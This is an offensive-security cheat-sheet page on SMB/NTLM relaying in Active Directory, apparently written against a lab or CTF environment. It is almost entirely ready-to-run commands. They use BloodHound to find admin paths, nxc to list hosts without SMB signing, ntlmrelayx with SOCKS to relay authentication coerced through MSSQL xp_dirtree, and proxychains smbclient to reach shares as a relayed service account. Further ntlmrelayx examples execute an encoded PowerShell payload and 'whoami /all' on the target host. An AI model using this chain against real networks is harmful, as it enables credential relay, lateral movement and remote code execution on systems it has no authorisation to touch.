 # 🏃 SMB Relaying

Check in bloodhound:

```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

<figure><img src="../../../.gitbook/assets/Bloodhound-3.png" alt=""><figcaption></figcaption></figure>

Check if SMB signing is disabled:

```
nxc smb 10.10.143.69-71 --gen-relay-list targets.txt
```

If message signing is disabled

Now start an smb relay:

```
ntlmrelayx.py -tf targets.txt -socks -smb2support
```

Add target in targets.txt (DC mostly)

Now in mssql

```
exec xp_dirtree "\\10.8.1.208\share"
```

Now add this in proxychains config:

```
socks5  127.0.0.1 1080
```

Now we can list shares authenticating as the user:

```
proxychains smbclient \\\\10.10.172.69\\prod -U REFLECTION/SVC_WEB_STAGING
```

## Example

we can also specify a single target

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
```

EXAMPLE 2:

```
sudo impacket-ntlmrelayx -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
```

## References

1. https://raxis.com/blog/ad-series-how-to-perform-broadcast-attacks/
2. https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
